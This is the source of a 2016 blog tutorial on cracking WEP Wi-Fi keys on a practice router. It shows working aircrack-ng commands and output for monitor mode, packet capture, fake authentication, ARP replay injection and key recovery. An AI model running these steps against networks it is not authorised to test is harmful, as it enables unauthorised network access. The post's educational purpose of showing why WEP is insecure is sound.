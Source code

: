 ```yaml
---
layout:     post
title:      "Wireless Security"
subtitle:   "WEP Hacking"
date:       2016-09-25 2:00:00
author:     "W3ndige"
permalink: /:title/
category: Networking
---
```


<p>Wired Equivalent Privacy (WEP) was introduced in 1999 as a part of 802.11 standard. It's puprose was to assure the privacy of the wireless network in a way near to wired networks. It's using RC4 cipher (with different key size: 64 and 128 bits) and CRC-32 checksum to mantain integrity. In addition WEP is using a short, 24 bit initialization vector (IV), which is added to the key provided by user, creating 'unique' for each packet RC4 key. But because the IV is so short, and it's used with the same key, WEP is now considered outdated, easy to crack and insecure.  </p>

![wep-crypto](/img/wireless-security-wep/wep-crypto.png){:class="img-responsive"}


<h1>Step by step attack</h1>

<p>Firstly we need to setup an old router, with WEP security option enabled, which will be our practice target. Also remember to have some other device connected to it wirelessly since we'll need to capture encrypted data between them. After that check whether or not your wireless card supports packet injection - if not, you have to get another one. I'm using TL-WN722N which is great and cheap option. Now, if you have everything up and running - let's move to Kali. </p>

<p>Firstly let's check if your adapter is seen by Kali - you can do this by typing <b>airmon-ng</b> command. </p>

{% highlight bash %}
root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
{% endhighlight %}

<p>For me it shows two cards - built in and USB one which is <b>wlan1</b></p>

<p>Now type <b>airmon-ng start [interface]</b> to set your USB adapter into monitor mode. If you encounter any problem try using <b>airmon-ng check kill</b> which will kill any processes using this adapter. After that I checked what name was assigned to the adapter - for me it was <b>wlan1mon</b> but yours can be different. </p>
{% highlight bash %}
root@kali:~# airmon-ng start wlan1


PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

		(mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
		(mac80211 station mode vif disabled for [phy1]wlan1)

root@kali:~# ifconfig
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 0  (Local Loopback)
        RX packets 2200  bytes 150212 (146.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2200  bytes 150212 (146.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1mon: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec F4-F2-6D-1A-99-ED-00-00-00-00-00-00-00-00-00-00  txqueuelen 1000
{% endhighlight %}

<p>Next step is to find the router - and get it's BSSID, channel (CH) and ESSID. You can do this by running command <b>airodump-ng [interface]</b>. This will show list of routers in range, information we need and some additional data. </p>

{% highlight bash %}
root@kali:~# airodump-ng wlan1mon
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:21:95:90:46:45  -86        2        0    0   1  54e. WPA2 CCMP   PSK  AndroidAP                                                                  
 54:B8:0A:10:DF:0E  -42       34        0    0   1  54e  WEP  WEP         pentest_wep                                                                
 D2:AE:EC:CE:DB:3B  -76       10        0    0   1  54e  WPA2 CCMP   PSK  DIRECT-mi pass-PHILIPS TV                                                  


 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            

 00:27:22:2A:9C:0E  00:27:22:06:83:C3  -83    0 - 0     50       49                                                                                   
 C4:27:95:75:3E:45  10:30:47:E3:43:F5  -67    0 -11e     0        2  
{% endhighlight %}


<p>Here it is, we've got all information to start the attack. My target is <b>pentest_wep</b> with BSSID:<b>54:B8:0A:10:DF:0E</b> on channel <b>1</b>. Copy the essential information and open another terminal window (CTR + ALT + T). Now we're going to capture encrypted packets sent between the router and client device. We can do this with airodump-ng command. </p>

{% highlight bash %}
root@kali:~# airodump-ng -w pentest_wep -c 1 --bssid 54:B8:0A:10:DF:0 wlan1mon
{% endhighlight %}

<p>Explanation: <b>-w</b> will save the packets to the file called pentest_wep, <b>-c</b> is a channel that the target is using, and <b>--bssid</b> is to specify which router we're going to attack. Last thing is to choose the USB adapter running monitor mode.</p>

<p>That's what we're going to be shown after running this command. </p>

{% highlight bash %}
CH  1 ][ Elapsed: 32 s ][ 20016-09-25 10:16                                         

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                    

54:B8:0A:10:DF:0E  218 100      312     1927  223   1  54 . WEP  WEP         pentest_wep              

BSSID              STATION            PWR   Rate   Lost  Packets  Probe                               

00:A0:37:C3:D1:CB  06:19:E0:88:6A:4C  170   0-24   1005       16    
{% endhighlight %}

<p>As you can see we've got a few more information - number of beacons, data sent, packets, and data per second. These numbers will start at 0 and grow as the traffic is passed between the router and client device. Then this traffic is saved into the file, specified in the command argument, which we're going to use later in order to crack the password. But to make it work you will need at least 20,000 IV's, sometimes even more. I recommend you to 'harvest' around 100,000 as it will undoubtedly work. At this point you can wait until you get desired number of IV's. But what if the target isn't using internet at the time? What if he/she's sleeping? Yup, there's solution to this ;)</p>


<p>Open up another terminal window (remember not to close the one running airodump-ng) and type in this command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -1 0 -a 54:B8:0A:10:DF:0E wlan1mon
No source MAC (-h) specified. Using the device MAC (F4:F2:6D:1A:99:ED)
08:05:38  Waiting for beacon frame (BSSID: 54:B8:0A:10:DF:0E) on channel 1

08:05:38  Sending Authentication Request (Open System) [ACK]
08:05:38  Authentication successful
08:05:38  Sending Association Request [ACK]
08:05:38  Association successful :-) (AID: 1)
{% endhighlight %}

<p>After that run another command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -3 -b 54:B8:0A:10:DF:0E wlan1mon
{% endhighlight %}

<p>Aireplay-ng works by sending ARP request packets so that data and beacons should start growing quickly. This works even if no one is connected to the internet. </p>


<p>Now after we've already captured huge amount of packets close all the processes that were running, then type <b>ls</b> to see if the .cap file was saved. Then we can type <b>aircrack-ng [filename.cap]</b>. This will start the process of cracking the password. Attack will be restarted between every 5000 IV's. </p>

{% highlight bash %}
root@kali:~# aircrack-ng pentest_wep-01.cap
Opening pentest_wep-01.cap
Read 1894984 packets.

   #  BSSID              ESSID                     Encryption

   1  54:B8:0A:10:DF:0E  pentest_wep               WEP (9651 IVs)

Choosing first network as target.

Opening pentest_wep-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 9651 ivs.


                                 Aircrack-ng 1.2 rc3


                 [00:32:05] Tested 1972 keys (got 24276 IVs)

   KB    depth   byte(vote)
    0    4/  8   42(30720) 30(29696) B0(29696) 68(29184) 0E(28160)
    1    0/  1   31(34304) 0A(30720) 0F(29952) 35(29952) E9(29952)
    2    2/  5   0F(29696) A1(29440) CA(29440) CB(28928) F7(28928)
    3    2/  6   68(30720) 15(30464) 89(29696) E1(29696) 5F(29184)
    4    8/  9   92(29696) 9C(28928) B5(28928) 64(28672) 8F(28672)

                     KEY FOUND! [ 42:31:57:68:92 ]
	Decrypted correctly: 100%
{% endhighlight %}

<p>And we've got the key! Some versions of aircrack may show you also ASCII version of the key but both can be used to login into the wireless network. Notice that you can run aircrack at the same time as running airodump - that way it tries to crack the key every time you gather new 5000 IV's. </p>

<p>Notice how easy it was to gain access to the network protected with WEP? That's why you should never protect your network with this standard. </p>

<p>As always thanks for reading, keep tuned for the next part about more advanced algorithms like WPA or WPA2. I also really recommend trying it out by yourself as it's the best way to understand how it works and learning by practicing is the best way to gain knowledge. </p>
